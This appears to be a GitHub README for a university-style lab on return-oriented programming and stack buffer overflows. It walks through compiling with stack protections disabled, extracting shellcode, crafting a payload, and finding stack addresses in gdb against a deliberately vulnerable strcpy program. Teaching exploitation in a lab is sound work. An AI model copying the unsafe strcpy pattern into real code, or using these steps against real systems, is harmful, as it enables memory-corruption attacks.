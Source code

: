 # RoP and Stack Attacks Lab

This repository contains files and instructions for performing Return-Oriented Programming (RoP) and stack attacks. The lab focuses on exploiting vulnerabilities and executing arbitrary code through buffer overflows.

## Files

The following files are required for the lab:

- `dummy_echo`: Dummy executable vulnerable to buffer overflow attacks.
- `inject.c`: C code for crafting the exploit payload.
- `create_mal_code.c`: C code for creating the malicious code.
- `shellcode.c`: C code for generating the shellcode.

## Instructions

1. Download the necessary files from Github:
   - `dummy_echo`
   - `inject.c`
   - `create_mal_code.c`
   - `shellcode.c`

2. Compile the files using the following command:
   ```
   gcc -z execstack -fno-stack-protector shellcode.c -o shellcode
   ```

3. Extract the shellcode by executing the following command:
   ```
   dd if=shell skip=1632 count=36 bs=1 of=shellcode
   ```

   Alternatively, use the following command if the video instructions are followed:
   ```
   dd if=shellcode skip=4397 count=36 bs=1 of=shell_code
   ```

4. Verify the existence of the `shell_code.bin` file by running the command:
   ```
   ls -l shell_code.bin
   ```

   If the file is not found, proceed to the next step.

5. Install the `hexedit` tool by executing the following commands:
   ```
   sudo apt-get install python3-apt
   sudo apt-get update --fix-missing
   sudo apt install hexedit
   ```

6. Open the `shell_code` file with `hexedit`:
   ```
   hexedit shell_code
   ```

   Use the Ctrl+x command to exit and return to the terminal.

7. Run the `create_mal_code` program with the following syntax:
   ```
   ./create_mal_code assumed_shellcode_addr padding shellcode outputfile
   ```

8. Execute the `create_mal_code` program to create the malicious code file:
   ```
   ./create_mal_code 0 20 shell_code malicious_code
   ```

9. Verify the existence of the `malicious_code` file by running the command:
   ```
   ls -l malicious_code
   ```

10. Adjust the file permissions for `malicious_code` if needed:
    ```
    chmod 666 malicious_code
    ```

11. Verify the file permissions of `malicious_code` by running the command:
    ```
    ls -l malicious_code
    ```

12. Open the `malicious_code` file with `hexedit`:
    ```
    hexedit malicious_code
    ```

13. Launch the `gdb` debugger and load the `inject` program:
    ```
    gdb ./inject
    ```

14. Execute the `run` command in `gdb` to observe any errors or issues.

15. If errors occur, create a new file named `victim_code.c` with the provided code snippet:

    ```c
    #include <stdio.h>
    #include <string.h>

    void copy_and_echo(const char* p)
    {
         char buffer[48];
         strcpy(buffer, p);
         puts(buffer);
    }

    int main (int argc, const char* argv[])
    {
         if (argc < 2)
             return -1;
         copy_and_echo(argv[1]);
         return 0;
    }
    ```

16. Compile the `victim_code.c` file using the following command:
    ```
    gcc -z execstack -fno-stack-protector victim_code.c -o dummy_echo
    ```

17. Run the `dummy_echo` program:
    ```
    ./dummy_echo
    ```

18. Launch the `gdb` debugger and load the `inject` program:
    ```
    gdb ./inject
    ```

19. Execute the `run` command in `gdb` to observe any errors or issues.

20. Take note of the stack address by typing the following command in `gdb`:
    ```
    p $sp
    ```

    The address will be displayed as `$1 = (void *) 0x7fffffffda58`. Make a note of this address.

21. Set a breakpoint in `inject.c` at the desired location using the stack address obtained in the previous step.

22. Compile `inject.c` with the following command:
    ```
    gcc -z execstack -fno-stack-protector inject.c -o inject
    ```

23. Run the `inject` program:
    ```
    ./inject
    ```

Note: Please ensure that you exercise caution when performing these actions and use them for educational purposes only.
